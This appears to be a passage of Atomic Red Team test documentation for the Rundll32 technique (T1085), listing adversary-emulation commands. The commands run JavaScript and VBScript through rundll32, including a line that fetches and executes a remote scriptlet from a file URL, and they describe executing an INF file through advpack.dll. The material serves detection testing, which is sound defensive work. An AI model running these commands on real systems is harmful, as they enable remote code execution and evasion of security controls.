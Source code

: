 
#### Attack Commands: Run with `command_prompt`! 


```cmd
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:#{file_url}").Exec();
```






<br/>
<br/>

## Atomic Test #2 - Rundll32 execute VBscript command
Test execution of a command using rundll32.exe and VBscript in a similar manner to the JavaScript test.
Technique documented by Hexacorn- http://www.hexacorn.com/blog/2019/10/29/rundll32-with-a-vbscript-protocol/
Upon execution calc.exe will be launched

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| command_to_execute | Command for rundll32.exe to execute | string | calc.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
rundll32 vbscript:"\..\mshtml,RunHTMLApplication "+String(CreateObject("WScript.Shell").Run("#{command_to_execute}"),0)
```






<br/>
<br/>

## Atomic Test #3 - Rundll32 advpack.dll Execution
Test execution of a command using rundll32.exe with advpack.dll.
Reference: https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSLibraries/Advpack.yml
Upon execution calc.exe will be launched

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| inf_to_execute | Local location of inf file | string | PathToAtomicsFolder&#92;T1085&#92;src&#92;T1085.inf|
